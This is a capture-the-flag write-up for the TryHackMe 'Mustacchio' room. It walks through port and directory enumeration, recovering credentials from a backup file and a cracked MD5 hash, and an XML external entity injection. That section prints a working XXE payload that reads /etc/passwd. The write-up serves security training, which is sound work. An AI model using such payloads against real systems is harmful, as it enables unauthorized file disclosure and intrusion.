 # Mustacchio

![image](https://user-images.githubusercontent.com/5285547/121743836-e0ac7c80-caf9-11eb-8112-a3e7e5a189bc.png)

[Room Link](https://tryhackme.com/room/mustacchio)

## Enumeration

### Nmap
```bash
nmap -p- -v 10.10.68.59
```

```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8765/tcp open  ultraseek-http

```

### Gobuster 

```bash
gobuster dir -u http://10.10.68.59  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak -t 45
```
http://10.10.68.59/
```bash
/gallery.html         (Status: 200) [Size: 1950]
/index.html           (Status: 200) [Size: 1752]
/images               (Status: 301) [Size: 311] [--> http://10.10.68.59/images/]
/contact.html         (Status: 200) [Size: 1450]                                
/blog.html            (Status: 200) [Size: 3172]                                
/about.html           (Status: 200) [Size: 3152]                                
/custom               (Status: 301) [Size: 311] [--> http://10.10.68.59/custom/]
/robots.txt           (Status: 200) [Size: 28]                                  
/fonts                (Status: 301) [Size: 310] [--> http://10.10.68.59/fonts/] 
```
http://10.10.68.59/custom/
```bash
/css                  (Status: 301) [Size: 315] [--> http://10.10.68.59/custom/css/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.68.59/custom/js/]
```
http://10.10.68.59/custom/js/
```bash
/users.bak            (Status: 200) [Size: 8192]
/mobile.js            (Status: 200) [Size: 1470]
```

Here we find a users.bak file. We can download and check the contents.
Which seem to be a mysql or database command for creating a new user

![image](https://user-images.githubusercontent.com/5285547/121745773-be682e00-cafc-11eb-951c-aff68f56f379.png)

So now we have a username: Admin 

http:10.10.68.59:8765/
```bash
/home.php             (Status: 302) [Size: 1993] [--> ../index.php]
/index.php            (Status: 200) [Size: 1363]                   
/assets               (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/assets/]
/auth                 (Status: 301) [Size: 194] [--> http://10.10.68.59:8765/auth/] 
```

## Website's (port 80, 8765)

### Port 80

This portal contains a blog for "mustacchio" brand for all mankind!

![image](https://user-images.githubusercontent.com/5285547/121744541-f9696200-cafa-11eb-9b2f-eeb05996505d.png)

Checking the webpages source code revealed nothing, but i noted a mobile.js script file included. Pressing F12 and using the developer console. I looked at the source code for the mobile.js file. 

![image](https://user-images.githubusercontent.com/5285547/121744888-7b598b00-cafb-11eb-8b8d-6741f1d9b90b.png)

I see some md5 at the bottom of the source code so try it on https://crackstation.net/ 
We get a hit

![image](https://user-images.githubusercontent.com/5285547/121745099-d55a5080-cafb-11eb-852e-bb56347012c3.png)

Now we have a username and password but nowhere to use them!?

### Port 8765

http://10.10.68.59:8765/

This page presents us with what we need for our credentials, a login page. 

![image](https://user-images.githubusercontent.com/5285547/121746171-5d8d2580-cafd-11eb-9c70-328eff1493a4.png)

After loggin in we get presented with this page

![image](https://user-images.githubusercontent.com/5285547/121746302-94633b80-cafd-11eb-8967-24ee1bc995f4.png)

Pressing the submit button causes a pop up box to appear

![image](https://user-images.githubusercontent.com/5285547/121746351-ad6bec80-cafd-11eb-9b68-e51cd7b0a08b.png)

Like it said to, inject some xml!
I got a payload from the internet here: https://github.com/payloadbox/xxe-injection-payload-list
After injection, some text appereard at the bottom of the page, indicating some structure needed for the xml.

![image](https://user-images.githubusercontent.com/5285547/121746652-1d7a7280-cafe-11eb-88c7-e39980cafe3f.png)

Checking our payload sent.

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

Then noting the response we got, which was "Comment Preview,Name, Author, Comment". I built a simuilar xml element with a root tag.

```xml
<!--?xml version="1.0" ?-->
<root>
 <commentPreview>John</commentPreview>
 <name>Doe</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```

Injecting this into the page left me with better results. 

![image](https://user-images.githubusercontent.com/5285547/121747164-dd67bf80-cafe-11eb-937a-bb120221768d.png)

Lets try to get a file next /etc/passwd as the usual test

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<root>
 <commentPreview>John</commentPreview>
 <name>&ent;</name>
 <author>Doe</author>
 <comment>John</comment>
</root>
```
![image](https://user-images.githubusercontent.com/5285547/121747246-05572300-caff-11eb-8005-17bd6a5b86aa.png)
![image](https://user-images.githubusercontent.com/5285547/121747279-13a53f00-caff-11eb-95b2-48b44ee149e2.png)



